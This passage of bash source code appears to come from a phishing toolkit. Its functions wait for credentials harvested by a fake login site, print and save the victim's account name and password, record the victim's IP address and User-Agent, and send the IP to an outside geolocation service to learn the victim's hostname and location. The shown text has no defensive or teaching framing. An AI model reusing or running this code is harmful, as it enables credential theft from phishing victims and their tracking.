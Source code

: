 
}

catch_cred() {

account=$(grep -o 'Account:.*' sites/$server/usernames.txt | cut -d " " -f2)
IFS=$'\n'
password=$(grep -o 'Pass:.*' sites/$server/usernames.txt | cut -d ":" -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Account:\e[0m\e[1;77m %s\n\e[0m" $account
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Password:\e[0m\e[1;77m %s\n\e[0m" $password
cat sites/$server/usernames.txt >> sites/$server/saved.usernames.txt
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m sites/%s/saved.usernames.txt\e[0m\n" $server
killall -2 php > /dev/null 2>&1

exit 1

}

getcredentials() {
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Waiting credentials ...\e[0m\n"
while [ true ]; do


if [[ -e "sites/$server/usernames.txt" ]]; then
printf "\n\e[1;93m[\e[0m*\e[1;93m]\e[0m\e[1;92m Credentials Found!\n"
catch_cred

fi
sleep 1
done 


}

catch_ip() {
touch sites/$server/saved.usernames.txt
ip=$(grep -a 'IP:' sites/$server/ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'
ua=$(grep 'User-Agent:' sites/$server/ip.txt | cut -d '"' -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Victim IP:\e[0m\e[1;77m %s\e[0m\n" $ip
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] User-Agent:\e[0m\e[1;77m %s\e[0m\n" $ua
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m %s/saved.ip.txt\e[0m\n" $server
cat sites/$server/ip.txt >> sites/$server/saved.ip.txt


if [[ -e iptracker.log ]]; then
rm -rf iptracker.log
fi

IFS='\n'
iptracker=$(curl -s -L "www.ip-tracker.org/locator/ip-lookup.php?ip=$ip" --user-agent "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.31 (KHTML, like Gecko) Chrome/26.0.1410.63 Safari/537.31" > iptracker.log)
IFS=$'\n'
continent=$(grep -o 'Continent.*' iptracker.log | head -n1 | cut -d ">" -f3 | cut -d "<" -f1)
printf "\n"
hostnameip=$(grep  -o "</td></tr><tr><th>Hostname:.*" iptracker.log | cut -d "<" -f7 | cut -d ">" -f2)
if [[ $hostnameip != "" ]]; then
printf "\e[1;92m[*] Hostname:\e[0m\e[1;77m %s\e[0m\n" $hostnameip
fi
##
